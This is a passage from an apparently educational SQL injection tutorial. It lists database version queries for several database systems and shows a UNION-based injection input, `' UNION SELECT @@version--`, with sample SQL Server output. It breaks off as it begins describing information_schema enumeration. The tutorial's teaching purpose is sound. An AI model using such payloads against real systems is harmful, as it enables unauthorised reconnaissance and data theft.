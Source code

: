 You can potentially identify both the database type and version by injecting provider-specific queries to see if one works

The following are some queries to determine the database version for some popular database types:

|Database type|Query|
|---|---|
|Microsoft, MySQL|`SELECT @@version`|
|Oracle|`SELECT * FROM v$version`|
|PostgreSQL|`SELECT version()`|

For example, you could use a `UNION` attack with the following input `' UNION SELECT @@version--`. Which might return the following output. In this case, you can confirm that the database is Microsoft SQL Server and see the version used:
```txt
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor
```
## Enumerating Database using Information_Schema Database
The `information_schema` database contains metadata about the database and tables present on the server, making it a crucial step for attackers to view or enumerate when per